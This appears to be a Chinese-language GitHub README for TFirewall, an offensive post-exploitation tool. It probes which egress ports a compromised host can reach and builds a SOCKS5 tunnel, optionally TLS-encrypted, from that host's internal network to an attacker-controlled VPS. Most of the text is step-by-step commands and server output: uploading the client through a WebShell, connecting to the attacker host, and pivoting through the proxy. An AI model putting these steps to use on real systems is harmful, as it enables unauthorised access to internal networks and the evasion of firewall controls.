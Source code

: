 TFirewall是测试已控主机哪些端口可以出网及建立内网socks5代理的工具.工具主体使用golang开发,工具包含客户端及服务端,适用于windows,linux,x64,x86.

# 使用方法
## 出网检测
* 将```tfs_linux_amd64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 直接运行```.\tfs_linux_amd64 check```启动监听,工具会自动监听常用的TOP10端口,或通过 ```.\tfs_linux_amd64 check 20-23,53,80```自定义监听端口
* 服务端打印如下信息表示监听成功
```
root@taZ:~# ./tfs_linux_amd64 check 20-23,53,80
Check Server listening:  [20 21 22 23 53 80]
```
* 通过WEBShell管理工具将```tfc_windows_386.exe```上传到已控服务器
* 运行```tfc_windows_386.exe check 10.10.10.10```测试TOP10端口哪些可以出网
> 服务端对应命令```.\tfs_linux_amd64 check```
* 运行```tfc_windows_386.exe  check 10.10.10.10 20-23,53,80```探测指定端口
> 服务端对应命令```.\tfs_linux_amd64 check 20-23,53,80```
* 观察服务端输出即可查看客户端可以连接服务端哪些端口,使用什么协议

```
root@iZj6cbux9hc5eo9oyud2taZ:~# ./tfs_linux_amd64 check 23,80-82
Check Server listening:  [23 80 81]
RecvTCP On 172.17.20.209:23 From 175.132.138.137:16918 
RecvTCP On 172.17.20.209:80 From 175.132.138.137:50641 
RecvTCP On 172.17.20.209:81 From 175.132.138.137:38747 
RecvUDP On [::]:23 From 175.167.138.137:28822
RecvUDP On [::]:80 From 175.167.138.137:26831
RecvUDP On [::]:81 From 175.167.138.137:26832
```

## 内网socks5代理
* 将```tfs_linux_amd64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 通过 ```.\tfs_linux_amd64 socks5 80 1080```在80端口启动控制监听,1080启动内网socks5端口
* 服务端打印如下信息表示监听成功
```
root@vultr:~# ./tfs_linux_amd64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
```
* 通过WEBShell管理工具将``tfc_windows_386.exe```上传到已控服务器
* 运行```tfc_windows_386.exe socks5 10.10.10.10 80```连接服务端
* 使用10.10.10.10:1080作为内网是socks5代理(11.11.11.11是该内网出口路由器的IP地址)
```
root@vultr:~# ./tfs_linux_amd64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
Socks5 new socket from :  11.11.11.11:55943
Control new socket from :  11.11.11.11:55789
```

## 内网socks5代理(TLS加密)
* 将```tfs_linux_amd64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 将server.pem(tls公钥),server.key(tls私钥)上传到```server_linux_x64```相同目录
* 通过 ```.\tfs_linux_amd64 socks5 80 1080 tls```在80端口启动控制监听,1080启动内网socks5端口
* 服务端打印如下信息表示监听成功
```
root@vultr:~# ./tfs_linux_amd64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
```
* 通过WEBShell管理工具将```tfc_windows_386.exe```上传到已控服务器
* 运行```tfc_windows_386.exe socks5 10.10.10.10 80 tls```连接服务端
* 使用10.10.10.10:1080作为内网是socks5代理(11.11.11.11是该内网出口路由器的IP地址)
```
root@vultr:~# ./tfs_linux_amd64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
Socks5 new socket from :  11.11.11.11:55943
Control new socket from :  11.11.11.11:55789
```

# 已测试
## server
* ubuntu 18
## client
* Windows 10 
* ubuntu 16
* kali




